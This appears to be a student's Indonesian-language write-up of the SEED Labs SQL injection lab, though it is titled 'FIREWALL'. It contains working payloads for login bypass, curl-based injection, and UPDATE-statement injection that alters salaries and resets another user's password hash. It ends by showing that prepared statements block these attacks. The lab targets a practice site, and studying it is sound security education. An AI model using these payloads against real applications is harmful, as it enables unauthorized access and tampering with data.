










### SEEDLAB : FIREWALL by Dito Prabowo

***
#### 0x1 LAB TASK

##### Task 1 : Get Familiar with SQL Statements

1. Login ke MySQL console dengan command :

        $ mysql -u root -pseedubuntu

2. Setelah login  gunakan database Users dan show tables

        mysql> use Users;
        mysql> show tables;

3. Kemudian tampilkan profile informasi dari Alice employee.

        Select * from credential;

##### Task 2 : SQL Injection Attack on SELECT Statement

###### Task 2.1: SQL Injection Attack from webpage

setelah melihat code php saat login, kita melihat sql Statement untuk login. disana kita bisa memodifikasi sql Statement saat memasukan username dan password.

        $sql = "SELECT id, name, eid, salary, birth, ssn, address, email,nickname, Password FROM credential WHERE name= ’$input_uname’ and Password=’$hashed_pwd’";

Agar kita bisa masuk dengan username admin kita bisa memodifikasi sql dengan

        admin' OR 1=1 --'

jadi pada sql Statement akan menjadi WHERE name=admin dan baris berikutnya akan menjadi komentar.

setelah itu kita bisa melihat seluruh informasi admin.

###### Task 2.2: SQL Injection Attack from command line

Kita bisa juga melakukan sql Injection lewat command line menggunakan curl, dengan mengganti payload dengan format url seperti spasi diganti %20, single quote diganti %27. dan file login bernama unsafe_home.php, berarti kita bisa menginjection dibelakang url karena login menggunakan GET method. payload diatas diencode url dengan :

        admin%27+OR+1%3D1+--%27

payload lengkap :

        curl http://www.seedlabsqlinjection.com/unsafe_home.php?username=admin%27+OR+1%3D1+--%27

dan kita akan bisa melihat respon nya dalam terminal. Terdapat semua informasi admin dalam respon

###### Task 2.3: Append a new SQL statement

Disini disuruh untuk Injection dengan lebih dari satu statement, dengan semicolon; setelah saya coba :

        admin' OR 1=1;UPDATE credential SET Salary=99999 WHERE ID=1; --'

hasilnya :

Injection tidak berhasil dilakukan, karena dalam php sql statement bila ingin lebih dari 1 statement harus memakai mysqli_multi_query() jika tidak maka kita tidak bisa melakukan Injection.

##### Task 3: SQL Injection Attack on UPDATE Statement

###### Task 3.1: Modify your own salary
Pertama kita login dulu ke salah satu account

misal dengan user alice password seedalice

Sekarang kita harus mengganti salary pada update statement. payload :

          ', salary=9999 where EID=10000; #

dan hasilnya, salary akan terganti dengan 9999

hasil :

###### Task 3.2: Modify other people’ salary

Sama seperti task 3.1 payloadnya tinggal kita kasih where name = nama yang ingin diganti

payload =

            ', salary=1 where Name='Boby'; #

dan hasilnya :

####### Task 3.3: Modify other people’ password

Sama Seperti 3.1 payloadnya diganti password yang sudah di hash sha1

password = dito -> sha1(dito) = a10f823742f01ccf5abd76d8b6c747ab0a8663a3

payload =

        ', Password= 'a10f823742f01ccf5abd76d8b6c747ab0a8663a3' where Name='Boby'; #

dan hasilnya :

password sukses kita ganti

##### Task 4: Countermeasure — Prepared Statement

Kita tinggal menggunakan file safe_home.php dan safe_edit_backend.php dan kita coba lakukan Injection, dan hasilnya SQL Injection tidak bisa kita lakukan.

dengan menggunakan payload sama seperti diatas, kita tidak bisa melakukan Attack

